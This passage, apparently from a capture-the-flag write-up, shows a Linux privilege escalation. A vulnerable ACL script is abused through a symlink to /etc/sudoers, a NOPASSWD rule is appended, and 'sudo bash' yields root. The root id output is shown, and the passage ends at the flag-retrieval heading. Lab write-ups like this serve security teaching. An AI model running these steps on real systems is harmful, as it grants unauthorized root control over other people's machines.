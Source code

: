 **Applying ACL permissions via the vulnerable script:**

```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Success:</strong> ACL permissions are now applied to the <code>/etc/sudoers</code> file via the symbolic link!
    </p>
</div>

**Modifying the sudoers file:**

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

**Verifying the modification:**

```bash
cat /etc/sudoers | tail -1
```

**Escalating to root:**

```bash
sudo bash
```

### Exploitation Result

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        <strong>ROOT SHELL OBTAINED!</strong> Maximum privileges achieved.
    </p>
</div>

## 🏁 Phase 9 — Flag Extraction

### Root Flag Retrieval

With root access, we can now retrieve the root flag:
